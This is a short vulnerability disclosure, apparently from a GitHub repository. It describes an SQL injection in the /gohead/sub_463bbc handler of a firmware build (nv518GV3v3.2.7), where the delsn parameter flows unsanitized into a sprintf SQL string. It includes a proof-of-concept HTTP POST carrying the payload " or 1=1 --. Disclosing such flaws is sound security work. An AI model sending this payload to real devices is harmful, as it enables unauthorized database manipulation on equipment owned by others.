

# FUN_00463bbc 漏洞信息

## 基础信息
- **影响组件**: /gohead/sub_463bbc
- **固件版本**: nv518GV3v3.2.7-210919-161313

## 漏洞详情

/gohead/sub_463bbc



Attacker controls delsn parameter → strtok_r splits by delimiter → unsanitized i directly into sprintf SQL string → arbitrary SQL injection via crafted sn value.

poc：

```

POST gohead/sub_463bbc HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

delsn=" or 1=1 -- ,

```